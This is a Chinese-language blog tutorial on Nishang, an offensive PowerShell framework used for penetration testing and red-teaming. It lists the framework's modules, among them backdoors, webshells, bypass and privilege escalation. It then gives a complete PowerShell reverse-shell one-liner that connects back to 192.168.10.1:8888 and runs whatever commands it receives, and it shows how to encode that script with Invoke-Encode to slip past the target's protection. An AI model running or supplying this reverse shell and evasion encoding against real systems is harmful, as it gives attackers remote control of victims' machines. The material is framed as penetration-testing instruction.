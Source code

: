 **目录**

[Nishang](#t0 "Nishang")

[Nishang的目录结构](#t1 "Nishang的目录结构")

[Nishang的使用](#t2 "Nishang的使用")

[Invoke-Decode.ps1](#t3 "Invoke-Decode.ps1")

* * *

![](https://img-blog.csdnimg.cn/20191208151623232.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

Nishang
=======

Nishang是一个[PowerShell](https://so.csdn.net/so/search?q=PowerShell&spm=1001.2101.3001.7020)脚本和有效载荷的框架和集合，它使PowerShell能够用于攻击安全性、渗透测试和红队。它是基于PowerShell的渗透测试专用工具，集成了框架、脚本和各种Payload，包括下载和执行、键盘记录、DNS、延时命令等脚本，被广泛用于渗透测试的各个阶段。Nishang在PowerShell3.0及以上的环境中才能正常使用，所以Windows7、Server2008下默认是有点小问题的。项目地址：[GitHub - samratashok/nishang: Nishang - Offensive PowerShell for red team, penetration testing and offensive security.](https://github.com/samratashok/nishang "GitHub - samratashok/nishang: Nishang - Offensive PowerShell for red team, penetration testing and offensive security.")

**Nishang的目录结构**
----------------

![](https://img-blog.csdnimg.cn/20191208143749526.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

*   ActiveDirectory：活动目录
*   Antak-WebShell：WebShell
*   Backdoors：后门
*   Bypass：绕过
*   Client：客户端
*   Escalation：提权
*   Execution：执行
*   Gather：信息收集
*   MITM：
*   Misc：发音
*   Pivot：跳板、远程执行exe
*   Prasadhak：Virustotal 
*   Scan：扫描
*   Shells：shell
*   Utility：杂项
*   Powerpreter：Meterpreter会话

Nishang的使用
----------

导入所有的脚本到当前的PowerShell会话中(PowerShell v3之前)

```
Import-Module -verbose  .\nishang.psm1
```


![](https://img-blog.csdnimg.cn/20191217154110722.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后输入命令：Get-Command -Module nishang   查看nishang有哪些功能

![](https://img-blog.csdnimg.cn/20191217154328516.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### Invoke-Decode.ps1

该脚本是Nishang的Utility目录下的，该脚本用于对payload进行编码。

![](https://img-blog.csdnimg.cn/20191206225823372.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

例如，我们现在想利用powershell反弹shell。

我们在服务端使用powercat进行监听

![](https://img-blog.csdnimg.cn/2019120623015446.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

我们在客户端的反弹shell的脚本如下，名为 reverse.ps1

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.10.1',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


但是由于客户端机器存在防护，直接指向该脚本反弹不了shell。所以，我们现在就利用 Invoke-Encode.ps1脚本对reverse.ps1进行编码。执行完成后，会生成两个文件：encoded.txt 和 encodedcommand.txt，前者是编码的数据，后者是编码后的命令。

```
Import-Module .\Invoke-Encode.ps1      
Invoke-Encode -DataToEncode .\reverse.ps1 -OutCommand
```


![](https://img-blog.csdnimg.cn/20191206230643955.png)

![](https://img-blog.csdnimg.cn/20191206230829572.png)

我们复制encodedcommand.txt 里面的命令，在powershell中执行，可以看到，反弹shell成功。

![](https://img-blog.csdnimg.cn/20191206231012630.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

未完待续。。

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)